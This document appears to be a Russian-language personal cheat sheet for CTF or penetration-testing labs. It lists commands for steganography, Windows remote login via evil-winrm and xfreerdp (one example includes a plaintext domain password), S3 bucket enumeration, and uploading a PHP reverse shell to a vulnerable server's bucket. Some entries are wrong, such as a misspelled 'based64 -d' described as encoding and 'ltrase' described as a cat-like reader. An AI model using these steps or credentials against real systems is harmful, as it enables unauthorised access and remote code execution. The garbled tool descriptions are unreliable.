 **`xdg-open`** - позволяет открыть файл ( например картинку ) или URL в предпочтительном для него окружении.
**`steghide`** - ищет закодированный текст в нетекстовых файлах ( например картинках )
> ``` 
> steghide --info image.jpg
> steghide extract -sf image.jpg
> ```

**`ltrase`** - читает бинарные файлы как cat 

## Удалённая авторизация
### evil-winrm
`evil-winrm` - подключиться к удаённому хосту windows. пример:

``` 
evil-winrm -i <ip> -u <username> -p <userpassword>
```
пример с windows:
```
evil-winrm -u 'CODEBY\dsemenov' -p '!!!!ilovegood17' -i 192.168.2.4
```
где `CODEBY\dsemenov` - {windows domain}\\{userdomain}
### impacket
[[impacket]]
## xfreerdp
Подключение к windows по протоколу RDP:
```
xfreerdp /u:username /p:"password" /v:"IP"
y
```
 
## WEB

### [[Responder]]

### AWS
Существует саб-домин - **s3**. Это облачное хранилище для вещей в контейнерах. Корзины **AWS S3** имеют различные сценарии использования, включая резервное копирование и хранение, хостинг мультимедиа, доставку программного обеспечения, статический веб-сайт и тд. Файлы, хранящиеся в корзине Amazon S3, называются объектами S3.
**`awscli`** позволяет взаимодействовать с этой корзиной.
```
aws configure # первоначальная настройка. Можно установить значения temp.
```
Мы можем перечислить все корзины S3, размещенные на сервере, с помощью команды ls:
```
aws --endpoint=http://s3.<url> s3 ls
```
Мы также можем использовать команду ls для перечисления объектов и общих префиксов в указанном бакете.
```
aws --endpoint=http://s3.<url> s3 ls s3://<url>
```
Далее можно создать файл и иньекцией:
```
php_reverse_shell > shell.php
```
и загрузить его на уязвимый сервер:
```
aws --endpoint=http://s3.<url> s3 cp shell.php s3://<url>
```
### WGET
чтобы скачать что-то на windows, необходимо использовать следующий синтаксис:
```
wget http://<IP/URL>/<file> -outfile <file>
```

### CURL
```
curl -sX POST <url> # чтобы сделать POST запрос 
```
```
curl <url> --data "..."
```
>`--data` - указывает post параметры 
>>пример для `...` : 
>>`admin=1&message=Hello` или json `{'admin':'1','message':'Hello'}`
## Encrypt
`based64 -d <text>` - перевести текст в based64 кодировку.

## PDF
Чтобы создать PDF файл и внедрить в него какие-то данные:
``` 
qpdf --empty --add-attachment <some file to implement> --mimetype=text/plain -- <name created file>
```
Извлечь ранее внедрённый в PDF файл:
```
binwalk -Me <file>
```
##### Открыть PDF
```
evince file.pdf
```
